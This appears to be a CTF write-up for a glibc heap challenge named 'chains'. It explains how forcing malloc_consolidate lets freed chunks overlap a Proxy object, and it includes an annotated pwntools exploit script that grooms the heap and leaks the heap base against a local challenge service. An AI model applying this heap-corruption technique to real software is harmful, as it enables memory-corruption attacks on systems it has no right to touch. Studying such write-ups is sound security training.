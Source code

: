 When the size of consolidated chunk is larger than `FASTBIN_CONSOLIDATION_THRESHOLD`, `malloc_consolidate` function is called and it turns all fastbin into unsorted bin. By using it, we can overlap and corrupt `Proxy` object and modify its member to get glibc and stack base. Fortunately, we can allocate 0x90 size chunk and if this chunk fills up the tcache (0x7 chunks), then free'd chunks goes unsorted bin. And it can be consolidated.

If you make unsorted bin chunk right before top chunk, it consolidates two chunks into one chunk. Then the size of the merged chunk will easily be larger than `0x10000`. This was core idea of this chal, the rest can be solved similarly to other chals.

I have annotated the exploit code just in case, so please refer to it.

```py
from pwn import *
choice = lambda x: p.sendlineafter(b"> ", str(x).encode())
def addProxy(name, port):
    choice(1)
    p.sendlineafter(b": ", name)
    p.sendlineafter(b": ", str(port).encode())
def deleteProxy(pid):
    choice(2)
    p.sendlineafter(b": ", str(pid).encode())
def addChain(pids):
    choice(3)
    p.sendlineafter(b": ", str(len(pids)).encode())
    for pid in pids:
        p.sendlineafter(b": ", str(pid).encode())
def viewChain(cid):
    choice(4)
    p.sendlineafter(b": ", str(cid).encode())
def deleteChain(cid):
    choice(5)
    p.sendlineafter(b": ", str(cid).encode())
def obfuscate(p, addr):
    return p ^ (addr>>12)
context.binary = ELF("./chains", False)
# libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6", False)
# p = process(aslr=1)

libc = ELF("./libc.so.6", False)
p = remote('localhost', 17173)

# 1. allocate many chunks
for _ in range(10):
    addProxy(b'A', 0x41)

# 2. make them free and consolidate each other (fastbin -> unsorted bin)
addChain([x for x in range(10)])
addProxy(b'B', 0x42)
deleteChain(0)
deleteProxy(10)

# 3. leak heap base through self-indicating Chain
addChain([3])
viewChain(0)
p.recvuntil(b"is ")
heap = u64(p.recvuntil(b":", True).ljust(8, b'\x00')) - 0x4b0
log.success(f"heap base @ {hex(heap)}")

# 4. clean heap with Proxy and Chain with invalid index 
for _ in range(7):
    addProxy(b'dummy', 0xFF)

for _ in range(9):
    addChain([-1])
```